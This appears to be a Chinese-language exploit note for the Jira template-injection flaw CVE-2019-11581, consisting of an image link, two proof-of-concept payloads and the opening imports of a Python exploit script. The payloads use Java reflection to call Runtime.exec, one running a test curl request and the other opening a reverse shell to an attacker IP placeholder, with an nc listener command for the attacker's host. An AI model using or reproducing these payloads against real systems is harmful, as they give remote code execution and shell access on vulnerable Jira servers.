 ![image](img/c5c3edc4bc7f2b13b82e3fddf5d32af4.png)

linux下可执行：

目标Jira系统可执行的POC

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor() 
```

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor() 
```

攻击者主机执行:nc -lvvp 2333

### poc

> scan

```
#/usr/bin/python
# -*- coding: utf8 -*-

# the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty

# I will probably will add features to make it more easy.

# Ths is some skeleton and probably things will not work on first run

# Importing

import requests

import sys

import argparse

from bs4 import BeautifulSoup

import cmd

```